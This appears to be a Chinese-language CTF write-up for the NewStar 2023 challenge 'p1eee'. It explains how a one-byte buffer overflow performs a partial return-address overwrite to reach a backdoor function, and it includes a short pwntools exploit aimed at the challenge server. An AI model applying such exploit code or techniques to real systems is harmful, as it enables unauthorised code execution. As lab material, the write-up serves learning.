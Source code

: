```yaml
---
title: newstar2023 week1 - p1eee
date: 2023/9/27 12:00:00
tags:
    - noob
excerpt: 利用后门函数的地址重定向，成功溢出一个字节实现CTF题解。
---
```


## 文件分析

下载`pwn`, NX on, PIE on, Canary off, RELRO full  
ghidra分析为64位程序

## 解题思路

该程序存在后门函数，因此尝试重定向回该函数  
但是只能溢出一个字节

已知在小端计算机上数据存储应是：  
假如main函数地址为0x55555555127b，那么地址从小到大存储为  
7b 12 55 55 55 55 00 00  
那么这一个字节可以覆盖7b

反汇编后可知，后门函数地址和read函数所在函数返回地址第一个字节一致，
因此只需要变化此字节即可

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 27047)
sh.sendline(b'0'*40 + p8(0x6c)) # addr of backdoor
sh.interactive()
```

后门函数所在地址第一字节是0x64，但是若直接使用，会导致rbp & 0xf != 0，
所以跳转到LEA处即可

Done.
